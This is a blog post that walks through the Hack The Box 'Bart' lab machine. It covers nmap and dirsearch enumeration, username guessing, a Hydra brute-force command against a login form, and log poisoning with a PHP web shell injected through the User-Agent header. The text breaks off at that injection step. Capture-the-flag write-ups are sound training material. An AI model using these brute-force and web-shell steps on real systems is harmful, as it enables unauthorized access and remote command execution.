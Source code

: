 ```yaml
---
layout: post
title:  "Hack The Box Bart writeup (w/o Metasploit)"
date:   2020-01-16 11:27:00 -0400
featured_img: "/assets/bart/bart-10.10.10.81.png"
categories: Bart HTB Windows
---
```


10.10.10.81 - Bart

![Bart](/assets/bart/bart-10.10.10.81.png)

Majority of the machines I've been working on are Windows machines. I was practicing a lot recently on Windows Priv Esc and Bart machine is a good example.

So... Let's start

As always we will start with nmap.

`nmap -A 10.10.10.81`

{% highlight shell %}
nmap -A 10.10.10.81
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-16 11:29 EST
Nmap scan report for bart.htb (10.10.10.81)
Host is up (0.044s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to http://forum.bart.htb/
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): FreeBSD 6.X (87%), Microsoft Windows 10|2008 (87%)
OS CPE: cpe:/o:freebsd:freebsd:6.2 cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_server_2008:r2
Aggressive OS guesses: FreeBSD 6.2-RELEASE (87%), Microsoft Windows 10 (87%), Microsoft Windows Server 2008 R2 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   41.40 ms 10.10.14.1
2   43.67 ms bart.htb (10.10.10.81)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.43 seconds

{% endhighlight %}

![nmap](/assets/bart/nmap-10.10.10.81.png) 

Port 80 is open. We have IIS version 10 which tells us that we have Windows 10 on 2016. We also get first url `http://forum.bart.htb`


Let's try searching for other directories on the server with dirsearch:

`root@kali:~/dirsearch# python3 dirsearch.py -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e php -f -t 20 -u 10.10.10.81`

![dirsearch](/assets/bart/dirsearch-10.10.10.81.png)

Dirsearch found also `/monitor/` for us.

We can add add  `10.10.10.81 bart.htb forum.bart.htb` to `/etc/hosts` file.


Let start with `forum.bart.htb`

![dirsearch](/assets/bart/forum-10.10.10.81.png)

We can see several persons here.

There is also one hidden inside page source

![dirsearch](/assets/bart/forum-html-10.10.10.81.png)


There is also /monitor page

Let's go there

![dirsearch](/assets/bart/monitor-10.10.10.81.png)


We can try to guess passwords. `admin:admin` did not work. We have Forgot password here. This may help us guess users.

Will try `user` first

![dirsearch](/assets/bart/forgot1-10.10.10.81.png)

`The provided username could not be found.`

![dirsearch](/assets/bart/forgot2-10.10.10.81.png)

But what about one of the persons we found on forum page.

We can try `harvey`

![dirsearch](/assets/bart/forgot3-10.10.10.81.png)

Success

![dirsearch](/assets/bart/forgot4-10.10.10.81.png)

After some trial and error the passwords turns out to be `potter`

So we are in.

![dirsearch](/assets/bart/monitor2-10.10.10.81.png)

But all we can see is the new subdomain `internal-01`

![dirsearch](/assets/bart/monitor3-10.10.10.81.png)

Let's add it to hosts file as well.

Open it in browser

![dirsearch](/assets/bart/internal-10.10.10.81.png)

Assuming the user is harvey, let's brute force our way in.

Hydra is the right tool for this

`hydra -l harvey -P /usr/share/wordlists/metasploit/common_roots.txt internal-01.bart.htb  http-form-post "/simple_chat/login.php:uname=^USER^&passwd=^PASS^&submit=Login:Password"`

`-l` is to specify user

`-P` is pointing to our wordlist

`http-form-post` is the type of form used on this website

`/simple_chat/login.php` shows the page it is trying to login to

`:Password` is the key word we see when login is not succcessdul. In our case it is either `Invalid Username or Password` or `The Password must be at least 8 characters` Since `Password` is seen in both cases we can specify just it

![dirsearch](/assets/bart/internal-fail1-10.10.10.81.png)

![dirsearch](/assets/bart/internal-fail2-10.10.10.81.png)


Run Hydra

![dirsearch](/assets/bart/hydra-10.10.10.81.png)

We got password: Password1

And so we are in

![dirsearch](/assets/bart/internal-chat-10.10.10.81.png)

According to chat harvey messed something up. Let's check page source.

![dirsearch](/assets/bart/logging-10.10.10.81.png)

This looks very interesting `http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey`

It seems to be storing logs into log.txt file.

![dirsearch](/assets/bart/logging2-10.10.10.81.png)

We can do log poisoning.

For this we will need to use Burp Suite

First switch browser to proxy through Burp

![burp](/assets/bart/burp1-10.10.10.81.png)

Start Burp and turn Intercept ON

![dirsearch](/assets/bart/burp2-10.10.10.81.png)

In browser open 

`http://internal-01.bart.htb/log/log.php?filename=log.php&username=harvey`

![burp](/assets/bart/burp3-10.10.10.81.png)

Send request to repeater

Edit User-Aget line like this `User-Agent: <?php system($_REQUEST['Argument']); ?>`

![burp](/assets/bart/burp4-10.10.10.81.png)





